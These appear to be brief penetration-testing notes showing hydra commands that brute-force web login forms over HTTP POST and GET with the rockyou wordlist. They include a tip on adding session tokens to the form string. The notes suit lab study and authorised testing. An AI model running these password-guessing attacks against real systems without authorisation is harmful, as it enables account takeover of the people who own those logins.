 
#### HTTP-POST-Request
example
	note: the http-post-form request must match entirely what is in the request
		ie: if there is a token, you have to include it too:
```
# example 1

hydra -l <user> -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`

# example 2 (including a token)

hydra -L </path/to/user_list> -p <password> 192.168.204.108 http-post-form "/index.php:fm_usr=^USER^&fm_pwd=password&token=ecd599a8dc3b8c1f20f961fc11a4adb33f2a665d67a2a8c70d3cb5166ee52e37:Login failed. Invalid"

```

## HTTP-GET
```
# example 1

hydra -L list -P /usr/share/wordlists/rockyou.txt 192.168.190.201 http-get /
```